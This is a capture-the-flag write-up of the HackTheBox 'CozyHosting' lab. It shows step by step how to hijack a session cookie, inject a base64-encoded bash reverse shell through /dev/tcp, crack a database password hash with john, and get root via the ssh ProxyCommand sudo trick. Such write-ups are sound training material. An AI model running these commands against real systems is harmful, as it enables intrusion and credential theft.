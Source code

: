 ```yaml
---
layout: post
title: "HTB: CozyHosting"
---
```


# Introduction

CozyHosting is an easy Linux box on HackTheBox, and is based on cookie abuse and command injection.

![pwn](/docs/assets/img/HTB-CozyHosting/pwn.PNG)

# Recon

## nmap

```powershell
nmap -sV -sC -Pn -p- --min-rate=1000 10.129.110.116
```

![nmap](/docs/assets/img/HTB-CozyHosting/1_nmap.PNG)

We found 2 open ports, the usual combo of ssh port 22 and web on port 80. We cant access website quite yet, it throws error at us, so let’s add the ip to **/etc/hosts** and try to access again.

![hosts](/docs/assets/img/HTB-CozyHosting/2_hosts.PNG)

## Site Exploration

![web](/docs/assets/img/HTB-CozyHosting/3_web.PNG)

There is nothing interesting on this page apart from the login button. So let’s try to fuzz the directories enabled on this site.

```powershell
dirsearch -u http://cozyhosting.htb/
```

![dirbust](/docs/assets/img/HTB-CozyHosting/4_dirbust.PNG)

We found few interesting things, **/admin** unfortunately redirects back to login but there are more interesting options under **/actuator**.

In the **/actuator/sessions** we can see session cookies of previous logins, one with its username.

![sessions](/docs/assets/img/HTB-CozyHosting/4_sessions.PNG)

# Log-in

Using `burp` we can capture out login attempt and switch the `JSESSIONID` for the one we found earlier. _Be careful, the session ID is on a timer so you may need to refresh before use_

![burp](/docs/assets/img/HTB-CozyHosting/05_burp.PNG)

With that we are in!

![login](/docs/assets/img/HTB-CozyHosting/06_cookie_login.PNG)

On the bottom of a page there is a form that serves as a ssh connection. Using `burp` we can intercept the request again and change the values to anything we want.

![nc](/docs/assets/img/HTB-CozyHosting/07_nc2.PNG)

# Reverse Shell

There are many way to get the reverse shell now.

Try [THIS](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file) useful website.

```powershell
echo "bash -i >& /dev/tcp/{YOUR_IP}/{YOUR_PORT} 0>&1" | base64 -w 0
echo "{PAYLOAD}"|base64 -d|bash
```

![shell](/docs/assets/img/HTB-CozyHosting/shell.PNG)

Just dont forget to **URL-encode** whatever you choose (Ctrl+U)

Start `nc` listener

```powershell
nc -lvnp 4444
```

and send the request.

![nc2](/docs/assets/img/HTB-CozyHosting/07_nc3.PNG)

Now make the shell stable.

```powershell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

# Exploration

There is **.jar** file we can use. Run a python server

```powershell
python3 -m http.server 4444
```

and download it to your machine.

```powershell
wget http://10.129.110.116:4444/cloudhosting-0.0.1.jar
```

Now open it using `jd-gui` and see what we got.

![jd-gui1](/docs/assets/img/HTB-CozyHosting/jd-gui.PNG)

![jd-gui2](/docs/assets/img/HTB-CozyHosting/jd-gui2.PNG)

With the password we found inside we can log into the database.

```powershell
psql -h 127.0.0.1 -U postgres
```

![database](/docs/assets/img/HTB-CozyHosting/database.PNG)

When we select all users we can see hashed password for admin account.

## John

Now we can use `john` to crack the password

```powershell
john password_hash.txt --wordlist=rockyou.txt
```

![josh_password](/docs/assets/img/HTB-CozyHosting/josh_password.PNG)

With the newly found password and the username we got from **/etc/passwd**

![users](/docs/assets/img/HTB-CozyHosting/users.PNG)

we can use the ssh port we found in the beginning.

## SSH in ...

![ssh_in](/docs/assets/img/HTB-CozyHosting/ssh_in.PNG)

… and grab the flag!

![user_flag](/docs/assets/img/HTB-CozyHosting/user_flag.PNG)

# Privilege Escalation

We can use `sudo -l` to list the allowed commands for the user. 

Here we found that our user can may run the `(root) /usr/bin/ssh *` command on localhost, which will give us root privileges.

![sudo_l](/docs/assets/img/HTB-CozyHosting/sudo_l.PNG)

Just check out [GTFOBINS](https://gtfobins.github.io/gtfobins/ssh/#sudo) for the command.

```powershell
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

![root](/docs/assets/img/HTB-CozyHosting/root.PNG)

and it is done!

Now grab the flag and have a nice day!

![root_flag](/docs/assets/img/HTB-CozyHosting/root_flag.PNG)

~
